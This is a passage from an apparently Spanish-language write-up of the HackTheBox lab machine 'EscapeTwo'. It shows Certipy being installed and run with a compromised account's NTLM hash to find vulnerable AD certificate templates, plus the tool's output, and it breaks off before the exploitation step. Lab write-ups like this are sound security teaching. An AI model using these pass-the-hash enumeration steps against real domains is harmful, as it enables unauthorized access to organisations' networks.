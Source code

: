 <img src="/images/writeup-escapetwo/Pasted image 20250507083108.png">

finalmente tenemos un otro usuario autenticado pero no tenemos permisos para conectarnos con rdp o winrm

buscando modos de enumerar con el usuario que hemos powneado podemos buscar configuraciones, plantillas vulnerables o certificados mal configurados, voy a usar la herramienta *certipy-ad* en el entorno de desarrollo python:
```bash
pip3 install certipy-ad
```

y vamos a enumerar con nuestro usuario recien conseguido y su hash NTLM:
```bash
certipy-ad find -vulnerable -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.129.231.236

```

nos dira:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC01-CA'
[*] Saved BloodHound data to '20250507090408_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250507090408_Certipy.txt'
[*] Saved JSON output to '20250507090408_Certipy.json'
```

si miramos el archivo de salida .json vemos al final del todo:

<img src="/images/writeup-escapetwo/Pasted image 20250507090815.png">
la vulnerabilidad que podremos explotar con este usuario! en la plantilla de certificado "DunderMifflinAuthentication"